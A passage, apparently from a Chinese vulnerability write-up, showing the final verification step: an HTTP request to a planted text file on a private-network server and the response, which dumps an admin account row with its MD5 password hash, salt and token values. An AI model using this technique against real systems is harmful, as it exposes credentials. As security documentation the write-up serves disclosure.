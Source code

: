 最后成功验证。

```http
GET /js/D7-UFs.txt HTTP/1.1
Host: 192.168.21.89:8081
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.120 Safari/537.36
Connection: close
Cache-Control: max-age=0


```

```http
HTTP/1.1 200 OK
Date: Fri, 14 Apr 2023 11:32:29 GMT
Server: Apache
Last-Modified: Fri, 14 Apr 2023 11:31:34 GMT
ETag: "db50000000dc875-133-5f94a2ef6444a"
Accept-Ranges: bytes
Content-Length: 307
Connection: close
Content-Type: text/plain

usr00000001	Admin	0	1	usr00000002	202cb962ac59075b964b07152d234b70	SrookgZ6qtg=	SprIrCtPWPOw9o9Ok1DJgJIJLZY=	ZB4SodE3MowGSAPseW1O	\N	1	\N	\N	2023-03-15	2	\N	\N	0	\N	\N	\N	\N	\N	\N	0	0	\N	100000	\N	0	\N
\N	\N	\N	\N	\N	\N	\N	\N	\N	\N	\N	\N	\N	\N	\N	\N	\N	\N	\N	\N	\N	\N	\N	\N	\N	\N	\N	\N	\N	\N	D7UFszUIaH8TOo

```
